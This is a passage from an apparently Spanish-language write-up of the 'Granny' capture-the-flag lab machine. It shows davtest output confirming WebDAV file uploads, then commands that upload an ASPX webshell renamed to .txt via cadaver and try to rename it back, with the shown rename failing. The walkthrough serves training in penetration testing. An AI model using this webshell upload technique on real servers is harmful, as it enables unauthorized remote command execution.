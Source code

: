 ```
EXEC	jhtml	FAIL
EXEC	txt	SUCCEED:	http://10.129.95.234/DavTestDir_vLRUiLDTxMIQSv/davtest_vLRUiLDTxMIQSv.txt
EXEC	txt	FAIL
EXEC	php	FAIL

********************************************************
/usr/bin/davtest Summary:
Created: http://10.129.95.234/DavTestDir_vLRUiLDTxMIQSv
PUT File: http://10.129.95.234/DavTestDir_vLRUiLDTxMIQSv/davtest_vLRUiLDTxMIQSv.jsp
PUT File: http://10.129.95.234/DavTestDir_vLRUiLDTxMIQSv/davtest_vLRUiLDTxMIQSv.pl
PUT File: http://10.129.95.234/DavTestDir_vLRUiLDTxMIQSv/davtest_vLRUiLDTxMIQSv.html
PUT File: http://10.129.95.234/DavTestDir_vLRUiLDTxMIQSv/davtest_vLRUiLDTxMIQSv.cfm
PUT File: http://10.129.95.234/DavTestDir_vLRUiLDTxMIQSv/davtest_vLRUiLDTxMIQSv.jhtml
PUT File: http://10.129.95.234/DavTestDir_vLRUiLDTxMIQSv/davtest_vLRUiLDTxMIQSv.txt
PUT File: http://10.129.95.234/DavTestDir_vLRUiLDTxMIQSv/davtest_vLRUiLDTxMIQSv.php
Executes: http://10.129.95.234/DavTestDir_vLRUiLDTxMIQSv/davtest_vLRUiLDTxMIQSv.html
Executes: http://10.129.95.234/DavTestDir_vLRUiLDTxMIQSv/davtest_vLRUiLDTxMIQSv.txt
```

Comprobamos que la `web` efectivamente es `vulnerable`

![](/assets/img/Granny/image_2.png)

## Web Exploitation

He probado a subir un archivo `asp` y no me ha funcionado la `webshell`, sin embargo, si me ha funcionado la `webshell` con un archivo `.aspx`. Estaré usando la `webshell` que se encuentre en `/usr/share/webshells/aspx/cmdasp.aspx`, vamos a ponerle de extensión `.txt` y una vez subido el archivo le `cambiaremos` el nombre de `extensión`.

```
# cp /usr/share/webshells/aspx/cmdasp.aspx .

# mv cmdasp.aspx cmdasp.txt

# cadaver 10.129.95.234                     
dav:/> put cmdasp.txt 
Uploading cmdasp.txt to `/cmdasp.txt':
Progress: [=============================>] 100.0% of 1400 bytes succeeded.
dav:/> copy cmdasp.txt cmdasp.aspx
Copying `/cmdasp.txt' to `/cmdasp.aspx':  failed:
Could not parse response: XML parse error at line 1: Extra content at the end of the document
```
